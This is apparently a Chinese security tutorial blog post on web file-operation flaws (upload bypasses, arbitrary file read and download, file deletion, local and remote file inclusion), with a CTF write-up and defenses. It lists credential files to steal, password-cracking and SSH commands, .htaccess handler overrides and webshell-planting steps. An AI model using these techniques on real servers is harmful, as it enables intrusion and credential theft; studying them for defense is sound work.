浅析文件操作漏洞
最后更新时间:
文章总字数:
预计阅读时间:
0x01 文件上传
先了解一下基础知识
要深入了解文件上传，必须了解上传属性、常见文件的结构、图形处理函数等内容。
1） 报文特点：
观察文件上传报文的特点：
Header中Content-Type特征有二：
1 | |
POST内容特征有五：
1 | |

2） 常见校验规则
1 | |
3）一个澄清
文件上传和文件解析是两个过程，即使我们上传的是php文件，但解析为图片，访问php文件会显示“图片无法显示”；或者我们上传的是jpg文件，但里面混有shell脚本，若被解析为php文件也会执行；又或者上传处没法绕过检测，只能上传jpg文件，但在其他功能处存在文件包含等功能，仍可执行成功。
还是回到安全的本质，上传是“输入”，那文件解析就是“输出”，任何漏洞挖掘都需要结合输入+输出。

4) 挖掘思路
上传漏洞挖掘思路总结起来分三步：
1、首先尝试直接上传脚本文件进行RCE；
2、若存在过滤，对于检测机制进行猜测，确定机制后尝试绕过；
3、若无法绕过上传，插入脚本后寻找解析/文件包含漏洞；
4、换其他类型文件：html、js、svg等转到挖掘其他漏洞。
一、文件上传常见场景

1 | |
二、文件上传漏洞的原理
文件上传漏洞是指用户上传了一个可执行的脚本文件（php、jsp、xml、cer等文件），而WEB系统没有进行检测或逻辑做的不够安全。
文件上传功能本身没有问题，问题在于上传后如何处理及解释文件。
一般情况下，Web应用都会允许用户上传一些文件，如头像、附件等信息，如果Web应用没有对用户上传的文件进行有效的检查过滤，那么恶意用户就会上传一句话木马等Webshell，从而达到控制Web网站的目的。
存在文件上传功能的地方都有可能存在文件上传漏洞，比如相册、头像上传，视频、照片分享。论坛发帖和邮箱等可以上传附件的地方也是上传漏阔的高危地带，另外像文件管理器这样的功能也有可能被攻击者所利用。
这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等
三、利用方式
1.上传WebShell文件，攻击者可通过这些网页后门执行命令并控制服务器。
2.上传文件是钓鱼图片或者包含了脚本的图片时，图片中的脚本，在某些版本的浏览器上会被作为脚本执行，从而被利用于钓鱼或者欺诈
3.上传病毒、木马文件，用于诱骗用户和管理员下载执行或者直接自动运行。
4.上传文件是其他恶意脚本时，攻击者可直接执行脚本进行攻击。
常用防御方式:
1.检查文件上传路径 ( 避免 0x00 截断、 IIS6.0 文件夹解析漏洞、目录遍历 )
2.文件扩展名检测 ( 避免服务器以非图片的文件格式解析文件 ),验证文件扩展名 通常有两种方式 : 黑名单和白名单 .
3.文件 MIME验证 ( 比如 GIF 图片 MIME为 image/gif,CSS 文件的 MIME为 text/css 等 )
4.图片二次渲染 ( 最变态的上传漏洞防御方式 , 基本上完全避免了文件上传漏洞 )
5.文件重命名 ( 如随机字符串或时间戳等方式 , 防止攻击者得到 webshell 的路径 )
6.隐藏上传路径
7.文件内容检测 ( 避免图片中插入 webshell)
四、绕过方式

1.前端检测
主要是通过JavaScript代码进行检测，是最简单的绕过
绕过方法：
- 删除或者禁用js：火狐–>点击JS使其为灰色->成功禁用
- 使用代理上传文件，brup suite；上传符合要求的文件类型，抓包修改文件类型
2.后端_扩展名检测
针对文件的扩展名后缀进行检测，主要通过黑白名单进行过滤检测，若不符合过滤规则则不允许上传。
2.1黑名单
黑名单检测：一般有个专门的blacklist文件或列举出黑名单，里面会包含常见的危险脚本文件。

绕过方法
- 大小写绕过： 服务端没有将后缀名转换为统一格式进行比对，导致可以上传后缀为pHp的文件，又因为Windows操作系统大小写不敏感，所以.pHp扔回被当成php文件解析。
1 | |
- 通过源代码可见，黑名单里虽然看似过滤得很全面，但还是出现了纰漏–没有将后缀名转为小写，若后缀名为
.pHP，则可以进行大小写绕过，成功上传文件。
1 | |
- 修改后缀名绕过：
- 名单中不允许上传
.asp，.php，.jsp，.exe后缀的文件 - 但可上传
—asaceraspx
—phpphp3php4php5phtmlpht
—jspxjspf
—exee - 前提是apache的httpd.conf中有如下配置代码
1 | |
当我们修改文件名后，可以发现文件上传成功
- 重写（双写）绕过
- 服务端将
黑名单的后缀名替换为空，但只进行一次。上传.pphphp后缀，替换一个php为空，则后缀名变为.php，成功绕过。
1 | |
利用Windows的命名机制
shell.php. shell.php空格 shell.php:1.jpg shell. php::$DATA shell.php:1.jpg
在Windows中，后缀名后面的点和空格都会被删除掉
2.2白名单
原理：白名单检测:一般有个专门的 whitelist 文件，里面会包含的正常文件：
JpgpngGIF
绕过方法

3.后端检测_00截断
点击进入： 【文件上传绕过】——后端检测_文件名检测00截断绕过
原理：虽然web应用做了校验，但是由于文件上传后的路径用户可以控制，攻击者可以利用手动添加字符串标识符0X00的方式来将后面的拼接的内容进行截断，导致后面的内容无效，而且后面的内容又可以帮助我们绕过黑白名单的检测。
思路： 在C语言中，空字符有一个特殊含义，代表字符串的拼接结束。
这里我们使用的是php语言，属于高级语言，底层靠C语言来实现的，也就是说空字符的字符串拼接结束功能在PHP中也能实现。但是我们在URL中不能直接使用空，这样会造成无法识别；我们通过查看ASCII对照表，发现ASCII对照表第一个就空字符，它对应的16进制是00，这里我们就可以用16进制的00来代替空字符，让它截断后面的内容。
使用burpsuite进行抓包，因为这里是通过URL进行传递的文件上传后存储路径，所以需要对16进制的00进行URL编码，编码的结果就是%00，通过这种方式，就可以用%00截断后面的内容，让拼接的文件名不再进行生效：

4.后端检测_MIME检测：
MIME(Multipurpose Internet Mail Extensions)多用途互联网邮件扩展类型。是设定某种扩展名的文件用一种应用程序来打开的方式类型，当该扩展名文件被访问的时候，浏览器会自动使用指定应用程序来打开。
1 | |
检测方式：
在文件上传过程中，服务端会针对我们的上传的文件生成一个数组，这个数组其中有一项就是这个文件的类型file_type；服务端对文件进行检测时，就是通过检测脚本中的黑白名单和这个数组中的file_type进行对比，如果符合要求就允许上传这个文件。
MIME绕过原理：
部分Web应用系统判定文件类型是通过content-type字段，黑客可以通过抓包，将content-type字段改为常见的图片类型，如image/gif，从而绕过校验。
5.后端检测_文件头检测漏洞
原理：
在每一个文件（包括图片，视频或其他的非ASCII文件）的开头（十六进制表示）实际上都有一片区域来显示这个文件的实际用法，这就是文件头标志。我们可以通过16进制编辑器打开文件，添加服务器允许的文件头以绕过检测。
常见文件头
GIF：47 49 46 38 39 61
png： 89 50 4E 47 0D 0A 1A 0A
jpg：FF D8 FF E0 00 10 4A 46 49 46
在进行文件头绕过时，我们可以把上面的文件头添加到我们的一句话木马内容最前面，达到绕过文件头检测的目的。
6.后端_内容检测图片马绕过
原理: 一般文件内容验证使用getimagesize函数检测,会判断文件是否是一个有效的文件图片,如果是,则允许上传,否则的话不允许上传。
图片马制作
准备一张图片，这里为a.png，和一个一句话木马，通过以下命令合成一个图片马3.php：
a.php内容：
1 | |
命令:
1 | |

这个图片搞错了，最后应该是png
注：这条命令的意思是：通过copy命令，把a.png图片文件，以二进制文件形式添加到a.php文件中，以ASCII文本文件形式输出为`3.png文件。
7.解析漏洞
7.1 .htaccess文件解析漏洞
漏洞利用前提： web具体应用没有禁止.htaccess文件的上传，同时web服务器提供商允许用户上传自定义的.htaccess文件。
原理： .htaccess文件(或者"分布式配置文件") ,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法，即，在一个特定的文档目录中放置一个包含一个或多个指令的文件，以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
利用方式： 上传覆盖.htaccess文件，重写解析规则，将上传的带有脚本马的图片以脚本方式解析。
.htaccess文件内容：
.htaccess文件解析规则的增加，是可以按照组合的方式去做的，不过具体得自己多测试。
<FilesMatch "evil.gif">
SetHandler application/x-httpd-php #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
AddHandler php5-script .gif #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
</FilesMatch>
AddType application/x-httpd-php .gif
7.2 Apache解析漏洞
原理： Apache 解析文件的规则是从右到左开始判断解析，如果后缀名为不可识别文件解析，就再往左判断。比如test.php.a.b的“.a”和“.b”这两种后缀是apache不能识别解析，apache就会把test.php.a.b解析成test.php。
7.3 IIS6.0解析漏洞
IIS6.0解析漏洞分两种：
1、目录解析：
以xx.asp命名的文件夹里的文件都将会被当成ASP文件执行。
2、文件解析：
xx.asp;.jpg 像这种畸形文件名在;后面的直接被忽略，也就是说当成xx.asp文件执行。
IIS6.0 默认的可执行文件除了asp还包含这三种 .asa .cer .cdx。
7.4 IIS7.0 | IIS7.5 | Nginx的解析漏洞
1 | |
漏洞形式：www.xxxxx.com/UploadFiles/image/1.jpg/1.php
另外两种解析漏洞：
www.xxxxx.com/UploadFiles/image/1.jpg%00.php
www.xxxxx.com/UploadFiles/image/1.jpg/%20\0.php
7.5 Nginx 漏洞
PHP+nginx默认是以cgi的方式去运行，当用户配置不当，会导致任意文件被当作php去解析。
利用条件:
以FastCGl运行
cgi.fix_pathinfo=1(全版本PHP默认为开启)
例如如果满足上述条件，当你访问url/shell.jpg/shell.php时，shell.jpg会被当作php去执行。
7.6 Nginx 文件名逻辑漏洞(CVE-2013-4547)
影响版本:Nginx 0.8.41 ~ 1.4.3/1.5.0 ~ 1.5.7
利用过程:
上传一个shell.jpg文件，注意最后为空格
访问url/shell.jpg[Ox20][Ox00].php
(两个中括号中的数字是用Burp在Hex界面中更改)
漏洞复现参考链接
8.二次渲染漏洞
原理：
在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片并放到网站对应的标签进行显示。
绕过：
1、配合文件包含漏洞：
将一句话木马插入到网站二次处理后的图片中，也就是把一句话插入图片在二次渲染后会保留的 那部分数据里，确保不会在二次处理时删除掉。这样二次渲染后的图片中就存在了一句话，在配合文件包含漏洞获取webshell。
2、可以配合条件竞争：
这里二次渲染的逻辑存在漏洞，先将文件上传，之后再判断，符合就保存，不符合删除，可利用条件竞争来进行爆破上传
如何判断图片是否进行了二次处理？
对比要上传图片与上传后的图片大小，使用16进制编辑器打开图片查看上传后保留了哪些数据，查看那些数据被改变。
9.条件竞争
1 | |
代码处理流程：声明一个数组，保存着允许上传的文件类型–>获取文件名和文件临时存储路径–>截取文件名–>构造文件上传后的存储路径–>对文件进行转存–>比对白名单，如果存在就对文件进行重命名–>否则就删除文件。
通过上面代码我们发现：
服务器先通过move_uploaded_file函数把文件保存了，然后再去判断后缀名是否合法，合法就重命名，如果不合法再删除。重点在于，在多线程情况下，就有可能出现还没处理完，我们就访问了原文件，这样就会导致防护被绕过。
我们上传一个文件上去，后端会检验上传文件是否和要求的文件是否一致。如果不能达到要求就会删除文件，如果达成要求就会保留，那么当我们上传文件上去的时候，检测是否到达要求需要一定的时间，这个时间可长可短，但是我们确确实实在某一刻文件已经上传到了指定地址，并且访问到这个文件。这时候就会造成条件竞争。
参考: 【文件上传绕过】——文件上传漏洞基础入门
太厉害了，终于有人能把文件上传漏洞讲的明明白白了—这里还讲了webshell相关内容
五、防御技巧
1、文件上传的目录设置为不可执行。只要web容器无法解析该目录下面的文件，即使攻击者上传了脚本文件，服务器本身也不会受到影响。
2、判断文件类型。在判断文件类型时，可以结合使用MIME Type、后缀检查等方式。在文件类型检查中，强烈推荐白名单方式，黑名单的方式已经无数次被证明是不可靠的，严格过滤扩展名为“.php、.asp、.bat”等可执行文件上传。此外，对于图片的处理，可以使用压缩函数或者resize函数，在处理图片的同时破坏图片中可能包含的HTML代码。
3、使用随机数改写文件名和文件路径。文件上传如果要执行代码，则需要用户能够访问到这个文件。在某些环境中，用户能上传，但不能访问。如果应用了随机数改写了文件名和路径，将极大地增加攻击的成本。再来就是像shell.php.rar.rar和crossdomain.xml这种文件，都将因为重命名而无法攻击。
4、单独设置文件服务器的域名。由于浏览器同源策略的关系，一系列客户端攻击将失效，比如上传crossdomain.xml、上传包含Javascript的XSS利用等问题将得到解决。
5、使用安全设备防御。文件上传攻击的本质就是将恶意文件或者脚本上传到服务器，专业的安全设备防御此类漏洞主要是通过对漏洞的上传利用行为和恶意文件的上传过程进行检测。恶意文件千变万化，隐藏手法也不断推陈出新，对普通的系统管理员来说可以通过部署安全设备来帮助防御。
6、隐藏文件上传目录，用户上传文件的目标目录对用户隐藏。
六、如何构造优质FUZZ字典
0x02 文件读取与下载
1 | |
1. 为什么产生任意文件读取与下载漏洞
一些网站的业务需要，可能提供文件查看或下载的功能，如果对用户查看或下载的文件不做限制，就能够查看或下载任意的文件，可以是源文件，敏感文件等等。
2. 任意文件读取漏洞
任意文件读取是属于文件操作漏洞的一种，一般任意文件读取漏洞可以读取配置信息甚至系统重要文件。严重的话，就可能导致SSRF，进而漫游至内网。
漏洞产生原因
- 存在读取文件的函数
- 读取文件的路径用户可控，且未校验或校验不严
- 输出了文件内容
任意文件读取
1 | |
1 | |
文件读取函数
readfile()、file_get_contents()、fopen()中，$filename没有经过校验或者校验不合格，用户可控制变量读取任意文件，如/etc/passwd、./index.php、/config.ini。
3. 文件读取漏洞挖掘
1、web漏洞扫描器（awvs、appscan、openvas、nessus）
2、手动挖掘从连接和参数名查看
Google search
1 | |
连接：
1 | |
参数名：
1 | |
4. 敏感信息
Windows：
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
Linux：
/root/.ssh/authorized_keys //如需登录到远程主机，需要到.ssh目录下，新建authorized_keys文件，并将id_rsa.pub内容复制进去
/root/.ssh/id_rsa //ssh私钥,ssh公钥是id_rsa.pub
/root/.ssh/id_ras.keystore //记录每个访问计算机用户的公钥
/root/.ssh/known_hosts
//ssh会把每个访问过计算机的公钥(public key)都记录在~/.ssh/known_hosts。当下次访问相同计算机时，OpenSSH会核对公钥。如果公钥不同，OpenSSH会发出警告， 避免你受到DNS Hijack之类的攻击。
/etc/passwd // 账户信息
/etc/shadow // 账户密码文件
/etc/my.cnf //mysql 配置文件
/etc/httpd/conf/httpd.conf // Apache配置文件
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/var/lib/mlocate/mlocate.db //全文件路径
/porc/self/cmdline //当前进程的cmdline参数
5. 绕过思路
可以进行fuzz
1 | |
6. Linux下的常见利用姿势
6.1 用户目录下的敏感文件
1 | |
历史命令重点关注出现的密码、路径、配置文件路径、其他关联IP、日志文件、war包、备份文件路径等等，可进一步读取或利用。
PS：如要下载文件，可能会导致过大文件下载失败，可以使用wget进行下载，比如catanlina.out日志文件、war包、备份文件等等。
6.2 主机凭证文件
私钥文件
1 | |
私钥文件如果没有设定密码保护，便可直接获取到进行登录到服务器，或使用xshell等软件选择证书登录。
ssh -i id_rsa root@IP地址
系统密码
/etc/passwd
1 | |
可以看到哪些用户可以登录
/etc/shadow
1 | |
id代表的是使用不同的加密算法，不同的系统使用的算法也不尽相同。salt是加密的时候需要用到盐。最后就是密文。
注意：如果密码字符串为*，表示系统用户不能被登入，为!表示用户名被禁用，如果密码字符串为空，表示没有密码。
| 格式 | 算法 |
|---|---|
| $1 | md5 |
| $2a | blowfish |
| $2y | blowfish |
| $5 | sha-256 |
| $6 | sha-512 |
- 在线查询
- john破解
unshadow /etc/passwd /etc/shadow > test_passwd
john --wordlist=字典路径 test_passw
默认密码字典位于/usr/share/john/password.ls
6.3 全路径
mlocate.db数据库里存储了本地所有文件的配置信息
/var/lib/mlocate/mlocate.db
利用locate命令将数据输出成文件，这里面包含了全部的文件路径信息
locate mlocate.db config把包含config的路径全输出出来
locate mlocate.db webapps
locate mlocate.db www
获取到路径后可以进一步挖掘敏感信息和系统漏洞
7. 程序源代码
利用全路径或者其他地方获取到的路径读取一些关键的程序源码。
读取WEB-INF/web.xml，进一步读取class文件，反编译得到源码。
读取war包，反编译获取源码。
8. 应用配置文件
获取到网站的相关配置信息，包括站点配置、数据库配置等等，也可进一步获取到源码。
- java站点
/WEB-INF/web.xml
/WEB-INF/classes/applicationContext.xml
/WEB-INF/classes/xxx/xxx/xxx.class
core.jar如果遇到Shiro站点，可以直接利用全路径找到core.jar，去下载core.jar，下载后反编译搜索Base64.decode直接找key，进而getshell。 - tomcat
/usr/local/tomcat/conf/tomcat-users.xml - nginx
/www/nginx/conf/nginx.conf
/etc/nginx/nginx.conf
/usr/local/nginx/conf/nginx.conf
/usr/local/etc/nginx/nginx.conf - apache
/etc/httpd/conf/httpd.conf
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf - redis
/etc/redis.conf - ssh
/etc/ssh/sshd_config
9. 应用日志文件
利用日志文件获取网站后台地址、api接口、备份、等等敏感信息。
- tomcat
可以先找到/tomcat/bin/catalina.sh，里边有log的配置路径
/webapps/ROOT/logs/catalina.out - apache
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd/access_log
/etc/httpd/logs/access_log
/etc/httpd/logs/error_log
/etc/httpd/logs/error.log - nginx
/var/log/nginx/access.log
/var/log/nginx/error.log
/usr/local/var/log/nginx/access.log
/usr/local/nginx/logs
10. Windows下的利用姿势
10.1 盲读取桌面文件
有些时候，管理员会图方便，在桌面存储一些敏感的文件，我们可以直接对桌面的一些文件名进行fuzz，比如1.txt、2.txt、密码.txt、pass.txt等等，进一步扩大战果。
5. 任意文件下载漏洞
一些网站由于业务需求，往往需要提供文件下载功能，但若对用户下载的文件不做限制，则恶意用户就能够下载任意敏感文件，这就是文件下载漏洞。
漏洞产生原因
- 有读取文件的函数
- 读物文件的路径用户可控，且没有经过校验，或者校验不严格
- 输出文件内容
- 一个正常的网站，存在一个下载文件的功能，同时还会从浏览器接收文件名字
文件下载的两种方式
1、直接下载：
1 | |
2、增加header头
1 | |

利用思路
- 下载常规的配置文件，例如: ssh,weblogic,ftp,mysql等相关配置
- 下载各种
.log文件，从中寻找一些后台地址，文件上传点之类的地方，如果运气好的话会获得一些前辈们的后门。 - 下载web业务文件进行白盒审计，利用漏洞进一步攻入服务器。
尝试读取/root/.bash_history看自己是否具有root权限。
如果没有，就只能利用../来回跳转读取一些.ssh下的配置信息文件。
读取mysql下的.bash_history文件。来查看是否记录了一些可以利用的相关信息。然后逐个下载需要审计的代码文件，但是下载的时候变得很繁琐，只能尝试去猜解目录，然后下载一些中间件的记录日志进行分析。
常见利用方式
java+oracle环境
可以先下载/WEB-INF/classes/applicationContext.xml 文件，这里面记载的是web服务器的相应配置，然后下载/WEB-INF/classes/xxx/xxx/aaa.class对文件进行反编译，然后搜索文件中的upload关键字看是否存在一些api接口，如果存在的话我们可以本地构造上传页面用api接口将我们的文件传输进服务器。
也可以先下载网站的配置文件，在根目录/WEB-INF/Web.xml的(一般都有很多内容,有时含有数据库连接用户名和密码等关键信息)。
具有root权限
在linux中有这样一个命令 locate 是用来查找文件或目录的，它不搜索具体目录，而是搜索一个数据库/var/lib/mlocate/mlocate.db。这个数据库中含有本地所有文件信息。Linux系统自动创建这个数据库，并且每天自动更新一次。
当不知道路径是什么的情况下，这个可以说是一个非常好用的了，我们利用任意文件下载漏洞将mlocate.db文件下载下来，利用locate命令将数据输出成文件，这里面包含了全部的文件路径信息。
locate 读取方法
1 | |
可以将mlocate.db中包含admin内容全部输出来。

利用这个文件可以获取到该服务器任何我们想要的内容并下载出来而不用一个一个去猜解目录，但是这个文件只有root用户才能读取。另一方面我们也可以利用linux内核的一个文件/proc/self/cmdline当前进程的cmdline参数，可以获取到路径信息。
总的来说，任意文件下载漏洞的利用主要是为了信息收集，我们通过对服务器配置文件的下载，获取到大量的配置信息、源码，从而根据获取的信息来进一步挖掘服务器漏洞从而入侵。
6. 任意文件读取与下载漏洞验证
任意文件读取验证
示例代码：
1 | |
测试：
1 | |

1 | |

file://伪协议 ，读取文件内容
1 | |

任意文件下载验证
示例代码：
1 | |

当然，我下载的这个文件并没有内容。
7. 漏洞判断
参数f的参数值为PHP文件时：
1.文件被解析，则是文件包含漏洞
2.显示源代码，则是文件读取漏洞
3.提示下载，则是文件下载漏洞
8. 漏洞利用实战
我学习任意文件读取与下载漏洞，就是因为遇到了一个任意文件读取与下载漏洞的Web题，所以在此实战一下
RoarCTF2019-Web：Easy Java(跟着复现吧)

不是弱口令，也不能扫出目录。只有一个help.docx文件可以下载。于是可能是任意文件下载漏洞。
点击蓝字“help”，抓包，发包。发现GET方式一直什么都下载不了。后来修改为POST，就可以下载了。
此时url：download，猜测是文件下载漏洞, 如下图发现filename参数可控


没啥用, 补充一下java web的目录结构

1 | |
WEB-INF/web.xml泄露
漏洞成因：通常一些web应用我们会使用多个web服务器搭配使用，解决其中的一个web服务器的性能缺陷以及做均衡负载的优点和完成一些分层结构的安全策略等。在使用这种架构的时候，由于对静态资源的目录或文件的映射配置不当，可能会引发一些的安全问题，导致web.xml等文件能够被读取。
漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码。
POST访问WEB-INF/web.xml, 发现

没错, 搞心态的
参照之前，想尝试访问/WEB-INF/web.xml得到文件但是失败了，查看源码发现有个地方是要求POST方式传入



发现如下

发现操作flag的关键文件位置，读取(或下载)/WEB-INF/classes/下的flag的关键文件位置，又因为Java字节码类文件（.class）是Java编译器编译Java源文件（.java）产生的“目标文件”。
最终得出flag的关键文件位置为：/WEB-INF/classes/com/wm/ctf/FlagController.class

base64解码即可
9. 漏洞防御修复
通用
- 过滤
.点，使用户在url中不能回溯上级目录 - 正则严格判断用户输入的参数
php.ini配置open_basedir限定文件访问范围
文件下载漏洞修复
- 将下载区独立出来，放在项目路径外，给每个下载资源固定的URL，而不是所有的下载资源都是统一的URL：
www.test.com/download?filename=文件名 - 净化数据：对用户传过来的文件名参数进行硬编码或统一编码，对文件类型进行白名单控制，对包含恶意字符或者空字符的参数进行拒绝。
- web应用程序可以使用chroot环境包含被访问的web目录，或者使用绝对路径+参数来访问文件目录时, 使其即使越权也在访问目录之内。www目录就是一个chroot应用。由chroot创造出的那个根目录，叫做“chroot监狱”(所谓”监狱”就是指通过chroot机制来更改某个进程所能看到的根目录，即将某进程限制在指定目录中，保证该进程只能对该目录及其子目录的文件有所动作，从而保证整个服务器的安全。
详细具体chroot的用法，可参考：blog.csdn.net/frozen_fish/article/details/2244870 - 任意文件下载漏洞也有可能是web所采用的中间件的版本低而导致问题的产生，例如ibm的websphere的任意文件下载漏洞，需更新其中间件的版本可修复。
- 要下载的文件地址保存至数据库中。
- 文件路径保存至数据库，让用户提交文件对应ID下载文件。
- 用户下载文件之前需要进行权限判断。
- 文件放在web无法直接访问的目录下。
- 不允许提供目录遍历服务。
- 公开文件可放置在web应用程序下载目录中通过链接进行下载。
- 记录文件下载日志。
0x03 文件删除
1.1 漏洞描述
应用程序在删除文件前，未对所要删除的文件内容、类型、文件名、文件目录做合法性校验，导致可删除服务器上任意文件，比如删除安装目录中锁文件，直接进行重装应用系统。
攻击者从寻找上删除的功能，正常删除功能的文件没有经过校验或者不严格，攻击者控制这个可操作的变量配合目录遍历进行删除其他文件。这里涉及到一个unlink()函数，这个函数的作用是删除对应的文件及文件内容。
1.2 应用场景
删除文件、附件、图片、替换、配置等
1.3 漏洞危害
攻击者利用此漏洞可直接删除web目录甚至服务器上任意格式文件，直接导致业务系统中断、崩溃。
1.4 漏洞实例(不知为何, 这种漏洞的文章太少了, 先跟着复现吧)
1.4.1 环境搭建(看了半天才发现, 现在的漏洞已经被修复了…)
因此我借鉴之前有漏洞的情况, 把关键代码写上去吧
CSCMS ：http://www.chshcms.com
网站源码版本：Cscms_v4.1正式版（发布日期：2017-06-05）
程序源码下载：https://github.com/chshcms/cscms
漏洞实例一
漏洞文件位置：\cscms\plugins\sys\admin\Basedb.php 第160-177行：
1 | |
漏洞利用：
1、根目录下新建test目录作为测试：

2、构造参数成功删除test目录(环境看不懂咋搭建, 就算了吧)
1 | |

漏洞实例二
漏洞文件位置：/plugins/sys/admin/Skin.php 第418–440行：
1 | |
漏洞利用：
1 | |
漏洞实例三
漏洞文件位置：/plugins/sys/admin/Plugins.php 第285-299行：
1 | |
漏洞利用:
?dir=…\test;

自己搭建一个
1 | |

执行查询后，文件被删除成功了, 目录中没了, 当然也可以遍历目录删除

1.5 修复建议
限制文件删除函数可删除的目录位置、文件类型
文件名非用户可控
0x04 文件包含
为何要进行文件包含？
程序员写程序的时候，不喜欢干同样的事情，也不喜欢把同样的代码（比如一些公用的函数）写几次，于是就把需要公用的代码写在一个单独的文件里面，比如 share.php，而后在其它文件需要使用时进行包含调用。在php里，我们就是使用上面列举的那几个函数来达到这个目的的，它的工作流程：如果你想在 main.php里包含share.php,我将这样写 include(“share.php”) ，然后就可以使用share.php中的函数了
文件包含漏洞汇总: 文件包含
1 | |
1 | |
黑盒测试（Black-box testing）是一种软件测试方法，其中测试人员在测试过程中只关注输入和输出，而对被测试系统的内部结构和实现细节不了解。测试人员将软件系统视为一个"黑盒子"，只能观察和测试其功能和行为，而不了解其内部工作原理。
简单来说, 应该跟白名单一样, 当你输入的参数是正确的或者是系统认可的, 那你就可以成功输入
1.1文件包含漏洞的原理
文件包含漏洞是一种常见的web类型漏洞,因为很多脚本语言支持使用文件包含,也就是我们所说的文件包含函数，网站开发者经常会把一些代码插入到指定的地方,从而节省时间避免再次编写 ,这就是包含函数的基础解释 ,但是我们不光可以包含我们预先指定的文件，也可以包含我们服务器内部的其他文件，前提条件就是我们需要有可读的权限才能读取这些文件 ,所以这样就会导致文件包含漏洞
1.2文件包含漏洞产生的原因
在网站的开发人员在开发网站的时候，会把经常重复使用的函数或者特定的页面写到单个文件中，需要使用的时候就直接调用此文件即可，而无需再次浪费时间再次编写，这种操作通常被称为文件包含。
如果我们没有对文件的来源进行严格的审查，也就是程序员在编写代码的时候触犯的逻辑性的错误就可能会导致文件读取漏洞和其它类型的漏洞，我们已php为例，在php中常用的文件包含函数有（include、require、include_once、require_once）,后续会介绍其中的区别。
1.2.1 无限制&有限制的包含
无限制为直接直接包含文件：
1 | |
有限制为直接直接包含文件：以添加固定后缀为例
1 | |
1.3漏洞的形成需要的条件
1 | |
1.3文件包含漏洞实例
Apace solr是apache公司研发的一款开源的搜索服务,应用范围很广,而且应用的人群也是很广的，但是在近几年它被爆出存在任意文件读取的漏洞，攻击者可以通过构造指定的payload对服务器内部文件进行读取的操作，这就造成很大的危害，因为我们可以通过读取敏感的数据从而控制服务器。
1.4文件包含漏洞分类
其文件包含漏洞共分为两大类，本地文件包含和远程文件包含，但是如果想要实现远程文件包含，需要php.ini开启了allow_url_fopen和allow_url_include的配置。包含的文件是第三方服务器的文件。本地文件包含的含义就是包含本地服务器的文件
1.4.1 本地包含
原理：
1 | |
无限制：可直接包含http://127.0.0.1:8888/webinclude.php?filename=phpinfo.txt
有限制：即漏洞使用有干扰，则需要特殊方法绕过
1 | |
1.4.2 远程包含
无限制：直接包含：http://192.168.114.11/webinclude.php?filename=http://www.xiaodi8.com/readme.txt
限制强制添加.html 可以用以上的符号 ? 、%23（#注释符） 、%20（空格）（不可用）
注意：
为什么文件包含一般使用txt格式的文件？
1 | |
1.4.3 本地文件包含代码测试-原理
本地准备 phpinfo的txt文件
1 | |
有限制时：以添加 .html后缀为例

1.4.4 远程文件包含代码测试-原理
对于远程包含，若php环境禁止，即没有远程包含功能

无限制时直接包含：(可以使用?和#进行伪截断，该方法对PHP版本没要求，但是要求能够包含远程文件。)

以添加 .html后缀为例的限制级：

1.4.5 远程文件包含代码测试-原理
1、查看远端服务器的ip和phpinfo();信息:
ip：185.243.241.45
phpinfo()信息:php版本为5.6.40
2、查看靶机的ip和phpinfo();信息:
ip：127.0.0.1
phpinfo()信息:php版本为7.3.4
3、在远端服务器网站主目录下，创建两个文件，一个是1.php，一个是1.txt:
内容:
1 | |

4、在靶机上面对远端服务器的1.php文件进行文件包含，可以看出，解析的结果为远端服务器的phpinfo();信息，如果使用一句话木马的话，获得的webshell也是自己的远端服务器的：
注:这里之所以返回的是我们的远端服务器的phpinfo();信息，是因为phpinfo();脚本在我们的远端服务器上面被执行了，执行完成后，通过文件包含返回了远端服务器的执行结果。也就是说这个执行结果不是靶机网站的而是我们自己的远端服务器的执行结果。

5、在靶机上面远程包含我们远端服务器网站主目录下的1.txt文件，可以看出，可以看出解析的结果为靶机的phpinfo();信息：
注:当我们使用txt格式或者其他非php格式进行文件包含时，由于我们远端服务器没有对文件进行包含，不会在我们远端服务器进行解析；所以当靶机对我们远端服务器的这个1.txt文件进行远程文件包含时，远端服务器不对它做解析，靶机对1.txt进行读取时，发现里面有php代码，这个时候，靶机就会按照php脚本对它进行解析；由于是在靶机里面读取的，所以执行的结果就是靶机的。

1.4.6 包含大马文件：
1、复制一个大马文件dama.php到主机的网站主目录下，并修改后缀名为txt格式：
2、直接访问这个文件，发现服务器是以文本文件的方式打开：

3、对这个文件进行远程文件包含，发现dama.txt格式的文件被以php脚本的形式解析了：
这里不知道为啥我显示的页面不对劲，下面展示一个正常的


1.4.6 写入文件脚本方式，写入一句话木马
1、在虚拟机网站主目录下面创建一个3.txt的文件,通过这个文件向服务器里面写入一句话木马yih.php文件：
内容：
1 | |
3、使用远程文件进行包含这个文件，并查看文件包含目录下，已经创建了一个yjh.php的文件：

4、使用蚁剑进行连接，成功获得webshell（这里注意添加yjh.php的路径法）

1 | |
1.5漏洞的攻击步骤
我们将从php语言的角度来看一下文件包含漏洞，以及相关的攻击步骤
在php语言当中，有四种文件包含的函数，分别是include、require、include_once、require_once
Include：被包含文件先按参数给出的路径寻找，如果没有给出目录（只有文件名）时则按照 include_path指定的目录寻找。如果在 include_path下没找到该文件则 include 最后才在调用脚本文件所在的目录和当前工作目录下寻找。如果最后仍未找到文件则 include 结构会发出一条警告；
ps：php开启错误题型需要配置php.ini中disaply_errors为On
